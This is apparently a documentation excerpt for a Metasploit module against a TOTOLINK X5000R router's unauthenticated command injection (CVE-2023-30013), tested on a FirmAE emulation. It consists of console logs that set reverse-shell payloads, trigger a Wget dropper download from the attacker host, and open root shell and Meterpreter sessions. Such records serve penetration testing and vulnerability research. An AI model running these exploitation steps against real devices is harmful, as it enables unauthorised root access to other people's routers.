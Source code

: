 ## Scenarios
### FirmAE X5000R Router Emulation Unix Command - cmd/unix/reverse_netcat_gaping
```
msf6 exploit(linux/http/totolink_unauth_rce_cve_2023_30013) > set target 0
target => 0
msf6 exploit(linux/http/totolink_unauth_rce_cve_2023_30013) > set payload cmd/unix/reverse_netcat_gaping
payload => cmd/unix/reverse_netcat_gaping
msf6 exploit(linux/http/totolink_unauth_rce_cve_2023_30013) > exploit

[*] Started reverse TCP handler on 192.168.0.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.0.1:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 5 seconds.
[*] Elapsed time: 5.71 seconds.
[+] The target is vulnerable. Successfully tested blind command injection.
[*] Executing Unix Command for cmd/unix/reverse_netcat_gaping
[*] Command shell session 12 opened (192.168.0.2:4444 -> 192.168.0.1:34888) at 2023-09-13 21:34:35 +0000

uname -a
Linux 4.1.17+ #28 Sat Oct 31 17:56:39 KST 2020 mips GNU/Linux
whoami
root
pwd
/www/cgi-bin
```
### FirmAE X5000R Router Emulation Linux Dropper - linux/mipsle/meterpreter_reverse_tcp
```
msf6 exploit(linux/http/totolink_unauth_rce_cve_2023_30013) > set target 1
target => 1
msf6 exploit(linux/http/totolink_unauth_rce_cve_2023_30013) > set payload linux/mipsle/meterpreter_reverse_tcp
payload => linux/mipsle/meterpreter_reverse_tcp
msf6 exploit(linux/http/totolink_unauth_rce_cve_2023_30013) > exploit

[*] Started reverse TCP handler on 192.168.0.2:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.0.1:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 6 seconds.
[*] Elapsed time: 6.67 seconds.
[+] The target is vulnerable. Successfully tested blind command injection.
[*] Executing Linux Dropper for linux/mipsle/meterpreter_reverse_tcp
[*] Using URL: http://192.168.0.2:1981/LLNMKYkmtrkWEFo
[*] Client 192.168.0.1 (Wget) requested /LLNMKYkmtrkWEFo
[*] Sending payload to 192.168.0.1 (Wget)
[*] Meterpreter session 13 opened (192.168.0.2:4444 -> 192.168.0.1:34890) at 2023-09-13 21:36:52 +0000
[*] Command Stager progress - 100.00% done (119/119 bytes)
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.0.1
OS           :  (Linux 4.1.17+)
Architecture : mips
BuildTuple   : mipsel-linux-muslsf
Meterpreter  : mipsle/linux
meterpreter > getuid
Server username: root
meterpreter >
```